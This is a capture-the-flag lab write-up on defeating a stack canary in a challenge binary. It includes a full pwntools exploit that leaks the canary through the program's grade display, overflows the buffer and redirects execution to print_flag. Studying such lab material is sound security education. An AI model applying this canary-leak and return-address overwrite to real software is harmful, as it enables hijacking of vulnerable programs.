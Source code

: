 # Canary Bypass

This challenge has stack canary enabled which means we can’t smash the stack the same way as earlier problems.

We need to avoid the canary so it can not be detected that we are trying to overflow the memory.

By trial and error I found out that  canary might be at the value of HW1: of 5th student. Not the best way of finding it out but I required help from Professor for that.

Through GDB, I found out that the stack smashing is detected if I input 120 characters. 
![](../images/cb_2.png)

Less characters than that do not alert the canary.
![](../images/cb_1.png)

That means canary starts from 120th byte.

For the final exploit, I leak the value of canary from HW1: of the ghost student no. 5 and then smash the stack while carefully placing the canary back it its place.

## Exploit
The final code turns out to be:
```python
from pwn import *

target = './canary-bypass'
e = context.binary = ELF(target,checksec=True)
context.log_level='debug'

io = process(target)

print(io.recvuntil(">> "))
io.sendline("5")
io.recvuntil("HW1: ")
canary = int(io.recv(10))
io.recvuntil("Letter Grade\n")
io.sendline("S")
io.recvuntil("continue \n")
io.sendline()

io.recvuntil('>> ')
io.sendline("1")
io.recvuntil("Letter Grade\n")

buf=0x78
payload = cyclic(buf)
payload += p32(canary)
payload += cyclic(0x1C)
payload += p32(e.symbols['print_flag'])
io.sendline(payload)
io.recvline()
io.sendline("q")

print(io.recvall())
io.close()
```